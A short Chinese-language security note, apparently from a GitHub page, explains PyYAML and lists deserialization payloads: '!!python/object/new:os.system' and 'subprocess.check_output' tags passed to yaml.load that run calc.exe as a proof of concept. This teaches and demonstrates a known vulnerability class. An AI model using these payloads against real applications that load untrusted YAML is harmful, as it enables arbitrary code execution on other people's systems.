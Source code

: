 参考：
	- https://github.com/bit4woo/code2sec.com/blob/master/Python%20PyYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AE%9E%E9%AA%8C%E5%92%8Cpayload%E6%9E%84%E9%80%A0.md

yaml和xml、json等类似，都是标记类语言，有自己的语法格式。各个支持yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存），其中PyYAML就是python的一个yaml库。

在当前的最新版本中payload为：
```python
import yaml

yaml.load('!!python/object/new:os.system ["calc.exe"]',Loader=yaml.Loader) 

'''
!!python/object/apply:subprocess.check_output [[calc.exe]]

!!python/object/apply:subprocess.check_output ["calc.exe"]

!!python/object/apply:subprocess.check_output [["calc.exe"]]

!!python/object/apply:os.system ["calc.exe"]

!!python/object/new:subprocess.check_output [["calc.exe"]]

!!python/object/new:os.system ["calc.exe"]
'''
```